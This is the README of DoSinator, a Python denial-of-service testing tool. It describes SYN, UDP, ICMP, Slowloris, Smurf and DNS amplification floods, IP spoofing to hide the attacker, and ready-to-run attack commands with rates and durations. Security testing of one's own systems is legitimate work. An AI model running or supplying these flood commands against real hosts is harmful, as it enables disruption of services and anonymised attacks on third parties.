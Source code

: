 # DoSinator

DoSinator is a powerful Denial of Service (DoS) testing tool developed with Python. Designed for security professionals and researchers, this tool allows them to simulate various DoS attacks. In this way, it provides a realistic environment for assessing the resilience of networks, systems and applications against potential cyber threats.
<img src="source/dosinator2.png">

## Features

- **Multiple Attack Modes**: DoSinator supports SYN Flood, UDP Flood, ICMP Flood,Os Fingerprint, Slowloris,Rudy,Sctp and Smurf attack modes, allowing you to simulate various types of DoS attacks.
- **Customizable Parameters**: Adjust the packet size, attack rate, and duration to fine-tune the intensity and duration of the attack.
- **IP Spoofing**: Enable IP spoofing to mask the source IP address and enhance anonymity during the attack.
- **Multithreaded Packet Sending**: Utilize multiple threads for simultaneous packet sending, maximizing the attack speed and efficiency.
- **Data from File**: Load custom data from a file to be sent in the attack packets.
- **PCAP Output**: Save the outgoing attack packets to a PCAP file for further analysis.

## Requirements

- Python 3.x
- scapy
- argparse

## Installation

1. Clone the repository:

   ```shell
   git clone https://github.com/HalilDeniz/DoSinator.git
   ```

2. Navigate to the project directory:

   ```shell
   cd DoSinator
   ```

3. Install the required dependencies:

   ```shell
   pip install -r requirements.txt
   ```

## Usage

```shell
$ python3 dosinator.py --help            
    ____             ____            __                
   / __ \____  _____/  _/___  ____ _/ /_____  _____    
  / / / / __ \/ ___// // __ \/ __ `/ __/ __ \/ ___/    
 / /_/ / /_/ (__  )/ // / / / /_/ / /_/ /_/ / /  _ _ _ 
/_____/\____/____/___/_/ /_/\__,_/\__/\____/_/  (_|_|_)
                                                       

usage: dosinator.py [-h] -t TARGET -p PORT [-np NUM_PACKETS] [-ps PACKET_SIZE] [-ar ATTACK_RATE] [-d  DURATION] [-am {syn,sctp,udp,icmp,http,dns,os_fingerprint,slowloris,smurf,rudy}] [-sp SPOOF_IP] [--data DATA] [--file FILE]
                    [--pcap PCAP]

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target IP address
  -p PORT, --port PORT  Target port number
  -np NUM_PACKETS, --num_packets NUM_PACKETS
                        Number of packets to send (default: 500)
  -ps PACKET_SIZE, --packet_size PACKET_SIZE
                        Packet size in bytes (default: 64)
  -ar ATTACK_RATE, --attack_rate ATTACK_RATE
                        Attack rate in packets/second (default: 10)
  -d  DURATION, --duration DURATION
                        Duration of the attack in seconds
  -am {syn,sctp,udp,icmp,http,dns,os_fingerprint,slowloris,smurf,rudy}, --attack-mode {syn,sctp,udp,icmp,http,dns,os_fingerprint,slowloris,smurf,rudy}
                        Attack mode (default: syn)
  -sp SPOOF_IP, --spoof-ip SPOOF_IP
                        Spoof IP address
  --data DATA           Custom data string to send
  --file FILE           File path to read data from
  --pcap PCAP           PCAP file path to save outgoing packets

```

- `target_ip`: IP address of the target system.
- `target_port`: Port number of the target service.
- `num_packets`: Number of packets to send (default: 500).
- `packet_size`: Size of each packet in bytes (default: 64).
- `attack_rate`: Attack rate in packets/second (default: 10).
- `duration`: Duration of the attack in seconds.
- `attack_mode`: Attack mode: syn, udp, icmp, http (default: syn).
- `spoof_ip`: Spoof IP address (default: None).
- `data`: Custom data string to send.
- `file`: File path to read data from.
- `pcap`: PCAP file path to save outgoing packets


## Usage Examples

Here are some usage examples of DoSinator:

#### SYN Flood Attack
```shell
python dosinator.py -t 192.168.1.1 -p 80 -ar 1000 -d 60 -am syn
```

#### UDP Flood Attack with Custom Data
```shell
python dosinator.py -t 192.168.1.2 -p 53 -ar 500 -d 120 -am udp --data "CustomPayload123"
```

#### ICMP Flood Attack with IP Spoofing
```shell
python dosinator.py -t 192.168.1.3 -p 443 -ar 200 -d 180 -am icmp -sp random
```

#### HTTP Slowloris Attack
```shell
python dosinator.py -t 192.168.1.4 -p 8080 -ar 50 -d 300 -am slowloris
```

#### Smurf Attack
```shell
python dosinator.py -t 192.168.1.5 -p 0 -ar 100 -d 240 -am smurf
```

#### DNS Amplification Attack with Data from File
```shell
python dosinator.py -t 192.168.1.6 -p 53 -ar 300 -d 150 -am dns --file dns_query.txt
```


Please use this tool responsibly and ensure you have the necessary permissions before conducting any tests.

## Contributing

Contributions are welcome! If you find any issues or have suggestions for improvements, feel free to open an issue or submit a pull request.

## Contact

If you have any questions, comments, or suggestions about Dosinator, please feel free to contact me:

- LinkedIn: [Halil Ibrahim Deniz](https://www.linkedin.com/in/halil-ibrahim-deniz/)
- TryHackMe: [Halilovic](https://tryhackme.com/p/halilovic)
- Instagram: [deniz.halil333](https://www.instagram.com/deniz.halil333/)
- YouTube: [Halil Deniz](https://www.youtube.com/c/HalilDeniz)
- Email: halildeniz313@gmail.com


## License
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for more details.

## 💰 You can help me by Donating
  Thank you for considering supporting me! Your support enables me to dedicate more time and effort to creating useful tools like DNSWatch and developing new projects. By contributing, you're not only helping me improve existing tools but also inspiring new ideas and innovations. Your support plays a vital role in the growth of this project and future endeavors. Together, let's continue building and learning. Thank you!"<br>
  [![BuyMeACoffee](https://img.shields.io/badge/Buy%20Me%20a%20Coffee-ffdd00?style=for-the-badge&logo=buy-me-a-coffee&logoColor=black)](https://buymeacoffee.com/halildeniz) 
  [![Patreon](https://img.shields.io/badge/Patreon-F96854?style=for-the-badge&logo=patreon&logoColor=white)](https://patreon.com/denizhalil) 

  
